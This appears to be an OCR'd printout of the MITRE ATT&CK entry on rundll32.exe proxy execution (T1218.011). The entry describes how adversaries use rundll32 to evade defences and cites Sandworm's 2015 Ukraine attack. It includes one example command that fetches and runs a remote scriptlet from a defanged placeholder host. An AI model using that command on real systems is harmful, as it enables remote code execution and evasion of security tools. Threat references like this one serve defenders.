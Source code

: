 3/22/24, 3:45 PM System Binary Proxy Execution: Rundll32, Sub-technique T1218.011 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/011/ 1/11Thank you to Tidal Cyber and SOC Prime for becoming ATT&CK's ﬁrst Benefactors. To join the cohort, or learn more about this program visit our
Benefactors page.3/22/24, 3:45 PM System Binary Proxy Execution: Rundll32, Sub-technique T1218.011 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/011/ 2/11Home>Techniques>Enterprise>System Binary Proxy Execution>Rundll323/22/24, 3:45 PM System Binary Proxy Execution: Rundll32, Sub-technique T1218.011 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/011/ 3/11System Binary Proxy Execution: Rundll32
Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. Shared Modules),
may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from
normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: rundll32.exe {DLLname, DLLfunction} ).
Rundll32.exe can also be used to execute Control Panel Item ﬁles (.cpl) through the undocumented shell32.dll functions Control\_RunDLL
and Control\_RunDLLAsUser . Double-clicking a .cpl ﬁle also causes rundll32.exe to execute. 
Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: rundll32.exe
javascript:"..\mshtml,RunHTMLApplication
";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" This behavior has been seen used by
malware such as Poweliks. 
Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function
names. As part of Windows compatibility support for various character sets, rundll32.exe will ﬁrst check for wide/Unicode then ANSI
character-supported functions before loading the speciﬁed function (e.g., given the command rundll32.exe ExampleDLL.dll,
ExampleFunction , rundll32.exe would ﬁrst attempt to execute ExampleFunctionW , or failing that ExampleFunctionA , before loading
ExampleFunction ). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and
appending W and/or A to harmless ones. DLL functions can also be exported and executed by an ordinal number (ex: rundll32.exe
file.dll,#1 ).
Additionally, adversaries may use Masquerading techniques (such as changing DLL ﬁle names, ﬁle extensions, or function names) to further
conceal execution of a malicious payload.Other sub-techniques of System Binary Proxy Execution (13)
[1]
[2]
[3][4]
[5]
Version PermalinkID: T1218.011
Sub-technique of:  T1218
 
Tactic: Defense Evasion
 
Platforms: Windows
 
Defense Bypassed: Anti-virus, Application control, Digital Certiﬁcate Validation
Contributors: Casey Smith; Gareth Phillips, Seek Ltd.; James\_inthe\_box, Me; Ricardo Dias
Version: 2.2
Created: 23 January 2020
Last Modiﬁed: 14 August 20233/22/24, 3:45 PM System Binary Proxy Execution: Rundll32, Sub-technique T1218.011 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/011/ 4/11Procedure Examples
ID Name Description
C0028 2015 Ukraine Electric
Power AttackDuring the 2015 Ukraine Electric Power Attack, Sandworm Team used a backdoor which could
execute a supplied DLL using rundll32.exe . 